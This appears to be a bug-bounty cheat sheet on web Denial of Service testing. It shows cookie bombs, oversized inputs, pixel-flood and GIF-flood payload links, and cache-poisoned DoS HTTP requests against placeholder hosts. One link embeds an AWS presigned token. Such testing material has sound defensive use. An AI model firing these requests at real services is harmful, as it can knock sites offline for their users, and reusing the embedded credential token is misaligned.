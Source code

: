 # Denial of Service

## Introduction
Denial of Service is a type of attack on a service that disrupts its normal function and prevents other users from accessing it

## Where to find
This vulnerability can appear in all features of the application. Depending on how to exploit it, for example in the file upload feature, you can upload very large files

## How to exploit
1. Cookie bomb
   
```
https://target.com/index.php?param1=xxxxxxxxxxxxxx
```
After input "xxxxxxxxxxxxxx" as a value of param1, check your cookies. If there is cookies the value is "xxxxxxxxxxxxxxxxxxxxxx" it means the website is vulnerable

2. Try input a very long payload to form. For example using very long password or using very long email
```
POST /register HTTP/1.1
Host: target.com
...
username=victim&password=aaaaaaaaaaaaaaa
```

3. Pixel flood, using image with a huge pixels

Download the payload: [Here](https://daffa.tech/lottapixel3.jpg)

4. Frame flood, using GIF with a huge frame

Download the payload: [Here](https://hackerone-us-west-2-production-attachments.s3.us-west-2.amazonaws.com/000/000/136/902000ac102f14a36a4d83ed9b5c293017b77fc7/uber.gif?response-content-disposition=attachment%3B%20filename%3D%22uber.gif%22%3B%20filename%2A%3DUTF-8%27%27uber.gif&response-content-type=image%2Fgif&X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=ASIAQGK6FURQ245MJJPA%2F20200910%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20200910T110848Z&X-Amz-Expires=3600&X-Amz-SignedHeaders=host&X-Amz-Security-Token=IQoJb3JpZ2luX2VjEFMaCXVzLXdlc3QtMiJHMEUCIEC768ifpRHeEUucuNuVL%2FdcSsWMnGeNp%2FMhKs6afB01AiEAiZOP%2FwMaeQMITUni3aFcACIOqOHnWHgLKuXHRrb5LooqtAMIXBABGgwwMTM2MTkyNzQ4NDkiDHHy9PJ2ccl9cmsvyCqRA6bliBHBMPXR6NYflM%2BCXCCQ5VLdPCATpmLs9DhVuYsjxR3JUtVHnBvtfEYYWDWWsLoC3xuzmug5ycrAvqK%2BTYDYO7l4HD1rXfyEBkR579ZlUFab6bOL4i8nDqblun%2FeV253Sgd6GzL4E%2FXmUN%2FC6qNydSd9hp2fLoyNjqob6o5zJjmnqvZsq50ROOZwf1idkDtr163qeVZERnan7aY9rM%2FsX4iVdE4wY0rLw1maGRuDF2aLVCxPB681htsHt%2FpoZ18QY7LjcbNjbjB4PgXLd1sm5zQ4q9mPVxTZPvzo9BJCh7l6kMLHCtJXOXfrvvN8UBgIqr1KXvodzv7FRQYcvEpfw4pwCTWzBs8VeEcwS9gjOXFMNLNI8SZ9V76VQ5KrOIpKhzM9UQQN3DVzY3SwMHydX%2B%2BYcQTt%2FjvqTkorsltqob2g5E1K0U8btRLBvBqOo0Vbr75zLcLUUomDBQzSNSvJgTN43huYmkZxBpWAAId72Tt6m56aFQLXkCKGSoMxYjrrVW9jc37pVl3lZU7FIX0AMIuN6PoFOusBpDCrjFwR1Y7t7W8wLapYjI6yOkkvWTFwWvx38jZl9okqo5xchKolmKxKX7cfGPIyuUmSXc1xa0nKwYeOYlhQZfyI0NobqyWW81ITuuUjsBxULuqrXqfVl0PTjTTpqe%2FHvU6wYSE358XfggtcqaH9PPgNDOejgv%2FLnh9AH9nyqIWuaCu865IfAOupVVzFzQilyB2LDyQtTS4Kp5dHyEAibRQlqeKHWOkUE2mQefAaTxKLRKrs0mJQYSuC%2B4LQEB3Cq9Nhj5HN%2BYT7A7CDLrvyChyfYXQZYr0lR1jN91Yd7SBe2jB1Qls%2Bx%2FEUlQ%3D%3D&X-Amz-Signature=910a3812cf3b69f6fa72f39a89a6df2f395f8d17ef8702eeb164a0477c64fff5)

5. Sometimes in website we found a parameter that can adjust the size of the image, for example
```
https://target.com/img/vulnerable.jpg?width=500&height=500
```
Try change "500" to "99999999999"
```
https://target.com/img/vulnerable.jpg?width=99999999999&height=99999999999
```

6. Try changing the value of the header with something new, for example:
```
Accept-Encoding: gzip, gzip, deflate, br, br
```

7. Sometimes if you try bug "No rate limit", after a long try it. The server will go down because there is so much requests

8. ReDoS (Regex DoS) occurs due to poorly implemented RegEx

9. CPDoS ([Cache Poisoned Denial of Service](https://cpdos.org/))
- HTTP Header Oversize (HHO)
  
  A malicious client sends an HTTP GET request including a header larger than the size supported by the origin server but smaller than the size supported by the cache
  ```
  GET /index.html HTTP/1.1
  Host: victim.com
  X-Oversized-Header-1: Big_Value
  ...
  ```
  The response is
  ```
  HTTP/1.1 400 Bad Request
  ...
  Header size exceeded
  ```
- HTTP Meta Character (HMC)
  
  this attack tries to bypass a cache with a request header containing a harmful meta character. Meta characters can be, e.g., control characters such as line break/carriage return (\n), line feed (\r) or bell (\a).

  ```
  GET /index.html HTTP /1.1
  Host: victim.com
  X-Meta-Malicious-Header: \r\n
  ...
  ```
  The response is
  ```
  HTTP/1.1 400 Bad Request
  ...
  Character not allowed
  ```
- HTTP Method Override (HMO)

  There are several headers present in HTTP Standard that allow modifying overriding the original HTTP header. Some of these headers are:
  ```
  1. X-HTTP-Method-Override
  2. X-HTTP-Method
  3. X-Method-Override
  ```
  The header instructs the application to override the HTTP method in request.
  ```
  GET /index.php HTTP/1.1
  Host: victim.com
  X-HTTP-Method-Override: POST
  ...
  ```
  The response is
  ```
  HTTP/1.1 404 Not Found
  ...
  POST on /index.php not found
  ```

- X-Forwarded-Port
  ```
  GET /index.php?dontpoisoneveryone=1 HTTP/1.1
  Host: www.hackerone.com
  X-Forwarded-Port: 123
  ...
  ```

- X-Forwarded-Host
  ```
  GET /index.php?dontpoisoneveryone=1 HTTP/1.1
  Host: www.hackerone.com
  X-Forwarded-Host: www.hackerone.com:123
  ...
  ```
  
![Response DoS](https://portswigger.net/cms/images/6f/83/45a1a9f841b9-article-screen_shot_2018-09-13_at_11.08.12.png)

## References
- [Hackerone #840598](https://hackerone.com/reports/840598)
- [Hackerone #105363](https://hackerone.com/reports/105363)
- [Hackerone #390](https://hackerone.com/reports/390)
- [Hackerone #400](https://hackerone.com/reports/400)
- [Hackerone #751904](https://hackerone.com/reports/751904)
- [Hackerone #861170](https://hackerone.com/reports/861170)
- [Hackerone #892615](https://hackerone.com/reports/892615)
- [Hackerone #511381](https://hackerone.com/reports/511381)
- [Hackerone #409370](https://hackerone.com/reports/409370)
- [CPDoS](https://cpdos.org/)

